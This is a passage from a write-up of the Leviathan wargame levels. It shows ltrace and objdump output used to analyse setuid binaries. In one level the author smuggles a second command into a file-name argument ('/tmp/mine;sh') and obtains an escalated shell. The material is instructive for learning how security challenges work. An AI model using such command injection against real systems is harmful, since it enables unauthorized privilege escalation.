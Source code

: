     leviathan2@melissa:~$ ls -l
    total 8
    -r-sr-x--- 1 leviathan3 leviathan2 7293 2012-06-28 14:54 printfile
    
Using ltrace again, we see:

    leviathan2@melissa:~$ ltrace ./printfile /tmp/mine1
    __libc_start_main(0x80484d4, 2, -10252, 0x80485b0, 0x8048610 <unfinished ...>
    access("/tmp/mine1", 4)                                                  = 0
    snprintf("/bin/cat /tmp/mine1", 511, "/bin/cat %s", "/tmp/mine1")        = 19
    system("/bin/cat /tmp/mine1" <unfinished ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                   = 0
    +++ exited (status 0) +++
    
So even though it's using snprintf (safe print), it does a call to system with whatever was pass in as an argument. The only caveat is that it checks the file we pass in for permissions (the access call) so it must exist and be owned by us. What about passing in a file whose name is essentially a command? Like '/tmp/mine;sh'

    leviathan2@melissa:~$ ./printfile "/tmp/mine;sh"
    /bin/cat: /tmp/mine: Is a directory
    $ id
    uid=12002(leviathan2) gid=12002(leviathan2) euid=12003(leviathan3) groups=12003(leviathan3),12002(leviathan2)
    
(The line about the directory is a red herring - it was probably put there by another player)

TODO: What about using symlinks??

# Level 4

That one was a rather large step above the previous level. Using ltrace didn't show any strcmp calls:

    leviathan3@melissa:~$ ltrace ./level3 
    __libc_start_main(0x8048580, 1, -10236, 0x80485b0, 0x8048610 <unfinished ...>
    __printf_chk(1, 0x80486aa, 0x80485bb, 0xf7fd2ff4, 0x80485b0)             = 20
    fgets(Enter the password> spam
    "spam\n", 256, 0xf7fd3440)                                         = 0xffffd62c
    puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
    )                                               = 19
    +++ exited (status 0) +++
    
Something happens to our input, which I assume is compared to something else in one way or another. Running 'strings' on the binary doesn't reveal much either. Just a handful of strings like snlprintf, bzzzzzap. WRONG, You've got a shell etc. To get a bit more clarity, we can dump the rodata section of the binary (where things like strings are stored - or so I'm told): 'objdump -s -j .rodata level3'. Sure enough, we see:

    leviathan3@melissa:~$ objdump -s -j .rodata level3 
    
    level3:     file format elf32-i386
    
    Contents of section .rodata:
     8048668 03000000 01000200 736e6c70 72696e74  ........snlprint
     8048678 660a005b 596f7527 76652067 6f742073  f..[You've got s
     8048688 68656c6c 5d21002f 62696e2f 73680062  hell]!./bin/sh.b
     8048698 7a7a7a7a 7a7a7a7a 61702e20 57524f4e  zzzzzzzzap. WRON
     80486a8 4700456e 74657220 74686520 70617373  G.Enter the pass
     80486b8 776f7264 3e2000                      word> .         
    